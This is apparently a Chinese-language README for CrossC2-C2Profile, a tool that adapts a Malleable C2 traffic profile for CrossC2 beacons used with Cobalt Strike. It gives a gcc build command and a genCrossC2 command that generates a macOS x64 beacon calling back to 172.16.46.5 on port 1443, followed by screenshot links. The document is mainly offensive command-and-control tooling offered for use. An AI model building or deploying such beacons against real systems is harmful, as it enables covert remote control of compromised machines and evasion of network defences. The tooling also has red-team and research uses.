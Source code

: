 # CrossC2-C2Profile

# 介绍

CrossC2通信协议API实现，可兼容使用C2Profile`https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.0.profile`。

# 使用

gcc编译使用的环境要靠近执行beacon的机器环境


```bash
gcc c2profile.c -fPIC -shared -o CrossC2-C2Profile.so
```

命令具体参考`https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html`

```bash
./genCrossC2.MacOS 172.16.46.5 1443 cobaltstrike.beacon_keys CrossC2-C2Profile.so MacOS x64 ./macos
```

# 效果

![image-20210706115833758](images/README/image-20210706115833758.png)

![image-20210706114424430](images/README/image-20210706114424430.png)
